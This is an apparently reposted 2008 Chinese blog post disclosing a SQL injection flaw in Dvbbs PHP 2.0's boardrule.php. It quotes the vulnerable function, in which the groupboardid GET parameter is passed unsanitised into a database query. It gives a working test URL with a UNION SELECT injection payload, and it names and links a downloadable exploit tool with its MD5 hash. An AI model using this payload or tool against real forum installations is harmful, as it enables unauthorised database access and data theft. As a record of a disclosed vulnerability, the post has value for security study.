 ```yaml
---
title: Dvbbs PHP版本0day
description: 这个PHP版dvbbs的漏洞本来是sniperhg准备清明节发出来的，小蟑螂说不知道被0kee群里的谁泄露出来了，随后也就发出来了，看蟑螂挺郁闷的，我这也帮他发出来吧，嘿嘿~。貌似官方已经修复了~影响版本：2.0漏洞文件：/boardrule.phpAuthor：sniperhg 小蟑螂信息来源：零客网安www.0kee.com--------------------分割JJ----------------------相关代码：
date: 2008-03-14 08:15:51
category: 漏洞信息
tags: ['0day', 'PHP', '注入', 'exploit']
post_id: 405
alias: dvbbs-php-2.0-0day
ViewNums: 4825
---
```


这个PHP版dvbbs的[漏洞](/tags/%E6%BC%8F%E6%B4%9E%E4%BF%A1%E6%81%AF)本来是sniperhg准备清明节发出来的，小蟑螂说不知道被0kee群里的谁泄露出来了，随后也就发出来了，看蟑螂挺郁闷的，我这也帮他发出来吧，嘿嘿~。貌似官方已经修复了~

影响版本：2.0
漏洞文件：/boardrule.php
Author：[sniperhg](http://www.iamnull.cn/)  [小蟑螂](http://5uck.cn/)
信息来源：零客网安 [www.0kee.com](http://0kee.com/?u=42)
--------------------分割JJ----------------------
相关代码：

function brule() {
    global $dv,$db,$boardid,$lang,$groupboardid;
    $groupboardid=$_GET['groupboardid'];
    if(!empty($_GET['groupboardid'])){
        $rules=$db->scalar("select rules from {$dv}group_board where id={$groupboardid}");
    }
    else{
        $rules=$db->scalar("select rules from {$dv}board where boardid={$boardid}");
    }

直接获得变量groupboardid，不为空就直接带入查询导致[注入](/tags/%E6%B3%A8%E5%85%A5)。
测试：http://dvbbsroot/boardrule.php?groupboardid=111111111/**/union/**/select/**/version()/*
利用工具 dvbbs_php2.0_fucker_.exe  MD5 : 6b931f8e00e90cf4b1faa531a59d4b36

[点击进入下载页面](/blog/download.asp?id=60

